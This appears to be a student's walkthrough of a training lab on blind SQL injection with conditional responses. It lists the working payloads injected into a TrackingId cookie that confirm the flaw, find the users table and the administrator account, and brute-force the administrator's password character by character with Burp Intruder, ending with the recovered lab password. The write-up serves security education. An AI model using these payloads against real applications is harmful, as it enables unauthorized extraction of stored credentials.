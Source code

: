 # Lab 11 - Blind SQL injection with conditional responses

## 1) Confirm that the parameter is vulnerable to blind SQLi
testing for response with welcome back massage
by payload

TrackingId=1k2UOfwhpyOj77BA' and 1=1--

the massgae come back that means that the parameter is vulnerable to blind SQLi

## 2) Confirm that we have a users table
using payload
trackingId = '1k2UOfwhpyOj77BA' and (select 'x' from users LIMIT 1)='x'--'

the massgae come back that means that the users table is in database

## 3) Confirm that username administrator exists users table
using payload
' and (select username from users where username='administrator')='administrator'--'

the massgae come back that means that the users administrator is in database

## 4) knowing  the password length of the administrator user
using payload with burp intruder to bruteforce the length of password
' and (select username from users where username='administrator' and LENGTH(password)>19)='administrator'--'

i found password is 20 characters

## 5) brute force the password
using burp intruder to brute force the characters
with two payloads one on the character index and one on every character to guess it
and filter for welcome word
' and (select substring(password,2,1) from users where username='administrator')='a'--'

![image](https://github.com/user-attachments/assets/5bb4a248-13f5-4a95-bb7b-98df308d0478)
the password is
r3s1k6jwbwn9qu94h4qm

